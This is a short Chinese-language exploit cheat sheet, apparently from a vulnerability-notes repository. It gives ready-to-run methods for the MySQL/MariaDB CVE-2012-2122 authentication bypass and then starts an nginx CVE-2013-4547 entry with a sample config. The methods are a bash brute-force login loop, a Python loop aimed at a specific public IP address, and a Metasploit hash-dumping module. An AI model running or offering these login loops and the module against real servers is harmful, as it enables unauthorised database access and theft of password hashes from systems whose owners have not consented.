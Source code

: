 # mysql

## CVE-2012-2122

**漏洞成因：**

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。 穷举256次用户密码，便能成功登录Mysql服务器。

**利用方式一：**

运行bash命令，穷举密码

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h 1.1.1.1 -P3306 ; done
```

**利用方式二：**

python脚本

```python
#!/usr/bin/python
import subprocess

while 1:
	subprocess.Popen("mysql -u root --password=blah -h193.112.81.168", shell=True).wait()

```

**利用方式三：**

MSF

```
use mysql_authbypass_hashdump
```

**受影响的mysql版本：**

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.



# nginx

## CVE-2013-4547

**漏洞成因：**

主要原因是错误地解析了请求的URI

```nginx.conf
location ~ \.php$ {
    include        fastcgi_params;

    fastcgi_pass   127.0.0.1:9000;
    fastcgi_index  index.php;
    fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
    fastcgi_param  DOCUMENT_ROOT /var/www/html;
}
```
